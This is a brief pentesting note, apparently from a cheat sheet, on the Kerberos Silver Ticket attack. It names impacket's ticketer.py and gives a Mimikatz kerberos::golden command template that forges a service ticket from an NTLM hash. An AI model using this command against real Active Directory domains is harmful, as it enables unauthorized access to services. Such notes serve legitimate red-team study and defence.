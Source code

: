 # Silver Ticket Attack
Requires a service account password or NTLM hash, to forge a TGS. Can be avoided with PAC enabled?

impacket ticketer.py

Requirements:
* Service hash

## Create a ticket for the service with Mimikatz
`kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /target:<TARGET/HOST.DOMAIN.FQDN> /rc4:<NTLM_MACHINE> /service:<SERICE>`